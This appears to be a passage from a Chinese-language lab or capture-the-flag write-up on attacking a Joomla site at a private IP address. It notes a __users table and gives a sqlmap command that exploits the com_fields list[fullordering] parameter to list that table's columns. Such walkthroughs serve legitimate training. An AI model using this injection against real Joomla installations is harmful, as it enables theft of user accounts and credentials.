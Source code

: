 ![image-20250312232551778](./assets/image-20250312232551778.png)

 

存在__users表(注意是两个\_)

 

获取字段名

```
sqlmap -u "http://192.168.6.26/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D "joomladb" -T  "#__users" --columns -p list[fullordering]
```

![image-20250312232601045](./assets/image-20250312232601045.png)
